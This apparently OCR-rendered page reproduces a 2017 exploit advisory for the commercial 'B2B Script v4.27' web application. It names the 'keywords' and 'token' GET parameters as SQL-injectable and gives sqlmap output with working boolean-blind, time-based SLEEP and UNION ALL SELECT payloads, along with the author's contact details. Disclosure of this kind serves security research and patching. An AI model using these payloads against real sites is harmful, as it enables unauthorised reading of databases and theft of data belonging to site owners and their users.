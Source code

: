 <BR>---
<BR>layout: post
<BR>title: B2B Script v4.27 - SQL Injection - 18.01.2017
<BR>---
<BR>
<br> An attacker can exploit this vulnerability to read from the database. The parameters 'keywords' and 'token' are vulnerable.
<br> 
<br># Vulnerability: B2B Script v4.27 - SQL Injection
<br># Date: 18.01.2017
<br># Software link: http://itechscripts.com/b2b-script/
<BR># Demo: http://b2b.itechscripts.com
<BR># Price: 199$
<BR># Category: webapps
<BR># Exploit Author: Dawid Morawski
<BR># Website: http://www.morawskiweb.pl
<BR># Contact: dawidmorawski1990@gmail.com
<BR>#######################################
<BR>
<BR>1. Description
<BR>An attacker can exploit this vulnerability to read from the database.
<BR>
<BR>2. SQL Injection / Proof of Concept:
<BR>
<BR>http://localhost/[PATH]/search.php?keywords=[SQL]
<BR>SQLmap outout:
<BR>
<BR>Parameter: keywords (GET)
 <BR>   Type: boolean-based blind
    <BR>Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
   <BR> Payload: keywords=-7908') OR 3641=3641#
<BR>
    <BR>Type: UNION query
    <BR>Title: MySQL UNION query (NULL) - 2 columns
    <BR>Payload: keywords=Products') UNION ALL SELECT <BR>NULL,CONCAT(0x716b7a7871,0x68634473486965586e6b57754358736b487a43564c6963646e556549454e476177776a5a6a7a4c4c,0x71767a7a71)#
<BR>---
<BR>[INFO] testing MySQL
 <BR>[INFO] confirming MySQL
 <BR>[INFO] the back-end DBMS is MySQL
<BR><
BR>#########################################
<BR>
<BR>
<BR>http://localhost/[PATH]/catcompany.php?token=[SQL]
<br>SQLmap outout:
<br>
<br>Parameter: token (GET)
    <br>Type: boolean-based blind
    <br>Title: AND boolean-based blind - WHERE or HAVING clause
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND 9125=9125 AND 'HhOm'='HhOm
<br>
  <br>  Type: AND/OR time-based blind
  <br>  Title: MySQL >= 5.0.12 AND time-based blind
  <br>  Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND SLEEP(5) AND 'dWKJ'='dWKJ
<br>
  <br>  Type: UNION query
  <br>  Title: Generic UNION query (NULL) - 6 columns
  <br>  Payload: token=-7417' UNION ALL SELECT <br>NULL,CONCAT(0x7171707071,0x6a6c6d484f58726e48446167417a66756464445941464844416856527a634a704f4b79647a494654,0x716b786271),NUL<br>L,NULL,NULL,NULL-- aNXq


